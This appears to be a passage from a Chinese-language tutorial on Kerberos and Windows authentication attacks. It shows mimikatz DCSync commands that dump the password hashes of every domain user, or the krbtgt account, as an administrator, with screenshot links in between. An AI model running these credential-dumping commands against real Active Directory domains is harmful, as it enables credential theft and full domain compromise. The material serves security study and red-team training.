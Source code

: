 ![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-0a5fc91a637c4d799981454c5569df0f.png)



#####  在线导出用户HASH(mimikatz)

```powershell
#run as administrator

#all user
mimikatz.exe "lsadump::dcsync /domain:<domain> /all /csv"

#only krbtgt
mimikatz.exe "lsadump::dcsync /user:DOMAIN\KRBTGT"
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-eaa34c60e22347258683ddf43dbb4dc4.png)
